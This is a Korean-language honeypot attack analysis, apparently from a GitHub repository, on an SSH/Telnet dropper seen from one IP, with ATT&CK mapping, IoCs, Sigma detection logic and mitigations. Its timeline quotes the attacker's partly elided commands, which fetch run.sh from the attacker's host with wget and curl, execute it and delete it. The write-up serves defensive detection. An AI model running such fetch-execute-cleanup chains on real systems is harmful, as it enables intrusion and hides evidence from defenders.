

# 🛡️ Attack Analysis: High-Risk Multi-Path Payload Delivery & Cleanup

## 1. 개요 (Executive Summary)
본 분석은 AbuseIPDB 위험도 **100%**로 분류된 악성 IP(`159.203.20.160`)의 공격 시나리오를 다룹니다. 공격자는 시스템 내 쓰기 가능한 모든 디렉토리를 순차적으로 탐색하며 페이로드를 배포하고, 실행 직후 원본 파일을 삭제하여 흔적을 지우는 고도화된 대응 방어(Defense Evasion) 수법을 사용했습니다.

- **분석 일시:** 2026-02-16
- **공격자 IP:** `159.203.20.160` (DigitalOcean / United States)
- **위협 수준:** Critical (AbuseIPDB Score: 100/100)
- **타겟 서비스:** SSH / Telnet

---

## 2. TTP 분석 (MITRE ATT&CK Matrix)

| 전술 (Tactics) | 기법 ID | 기법명 (Technique) | 상세 행위 |
|:---|:---|:---|:---|
| **Execution** | T1059.004 | Unix Shell | 다중 디렉토리 순회 및 연속 명령어 실행 |
| **Defense Evasion** | T1070.004 | File Deletion | 페이로드 실행 후 `rm -rf`를 통한 흔적 제거 |
| **Persistence** | T1105 | Ingress Tool Transfer | `wget`과 `curl`을 혼용하여 가용성 확보 |

---

## 3. IoC (Indicators of Compromise)

| 유형 | 값 (Value) | 비고 |
|:---|:---|:---|
| **IPv4** | `159.203.20.160` | C2 및 악성 페이로드 호스팅 서버 |
| **URL** | `http://159.203.20.160/run.sh` | 최종 단계 페이로드 경로 |
| **File Name** | [`run.sh`](./run.sh) | 다목적 악성 쉘 스크립트 |

---

## 4. 공격 타임라인 및 분석 (Attack Lifecycle)

공격자는 자동화된 스크립트를 사용하여 시스템의 보안 허점을 집요하게 파고들었습니다.

| 시간 (KST) | 명령어 (Input) | 분석 및 의도 |
|:---|:---|:---|
| 21:10:01 | `cd /tmp \|\| cd /var/run ...` | 쓰기 가능한 디렉토리를 찾을 때까지 다중 경로 순회 시도 |
| 21:10:02 | `wget .../run.sh; curl -O ...` | 서로 다른 도구를 사용하여 페이로드 다운로드 성공률 극대화 |
| 21:10:03 | `chmod +x run.sh; ./run.sh` | 실행 권한 부여 및 최종 페이로드 구동 |
| 21:10:04 | `rm -rf run.sh` | **Anti-Forensics:** 분석을 방해하기 위해 실행 직후 소스 파일 삭제 |

### 실제 탐지 화면 (Cowrie Dashboard)

> **비고:** 해당 IP는 전 세계적으로 수만 건의 리포트가 누적된 "상습적(Confidence of Abuse 100%)" 공격지로 분류되어 있습니다.

---

## 5. 탐지 전략 (Detection Strategy)

본 사례는 다중 디렉토리 순회 및 즉시 삭제(Cleanup)를 특징으로 하며, 이를 효과적으로 식별하기 위해 **계층형 탐지(Layered Detection)** 모델을 적용합니다.

### A. 표준 이벤트 탐지 (Standard/Atomic Detection)
공격의 각 구성 요소가 되는 행위 지표를 개별적으로 식별합니다.

* **다중 경로 진입 탐지 ([`lnx-susp-writable-paths.yml`](../../sigma_rules/standard/lnx-susp-writable-paths.yml))**: `/tmp`, `/var/run`, `/mnt` 등 시스템 내 쓰기 가능한 모든 디렉토리를 순차적으로 탐색하는 시도를 포착합니다.
* **도구 가용성 탐지 ([`lnx-susp-download-tools.yml`](../../sigma_rules/standard/lnx-susp-download-tools.yml))**: `wget`과 `curl`을 병행 사용하여 페이로드 반입 성공률을 높이려는 시도를 식별합니다.
* **실행 및 안티 포렌식 탐지 ([`lnx-susp-exec-cleanup.yml`](../../sigma_rules/standard/lnx-susp-exec-cleanup.yml))**: 실행 권한 부여(`chmod +x`) 후 분석 방해를 위해 원본 파일을 즉시 삭제(`rm -rf`)하는 행위를 통합 탐지합니다.

---

### B. 상관관계 분석 (Correlation/Behavioral Detection)
개별 행위의 조합을 통해 자동화된 '감염 및 증거 인멸' 시퀀스를 확정적으로 식별합니다.

* **파일명**: [`corr-lnx-classic-dropper.yml`](../../sigma_rules/correlation/corr-lnx-classic-dropper.yml)
* **탐지 로직**: 
    1. 동일 세션 내에서 **다중 경로 순회**(`lnx-susp-writable-paths`) 확인
    2. 5분(Timespan) 이내에 **복합 도구를 통한 다운로드**(`lnx-susp-download-tools`) 발생
    3. 페이로드 실행 직후 **파일 삭제**(`lnx-susp-exec-cleanup`)가 이어지는 완전한 공격 사이클을 포착할 때 `Critical` 알람 생성
* **효과**: 단순한 파일 조작 행위와 차별화하여, 공격자의 흔적 제거 시도(Anti-Forensics)를 오히려 강력한 감염 확정 증거로 활용합니다.

---

## 6. 대응 권고 사항 (Mitigation)
* **IP 차단:** DigitalOcean 대역에서 발생하는 비정상적인 인바운드 접근 차단.
* **Auditd 설정:** 파일 삭제(`rm`) 행위에 대한 감사 로그를 활성화하여 삭제된 파일의 메타데이터 보존.
* **ReadOnly FS:** 시스템 핵심 디렉토리에 대해 읽기 전용 설정을 강화하여 임의 파일 생성 방지.

---
**Authored by**: [@BISHOP1027](https://github.com/BISHOP1027)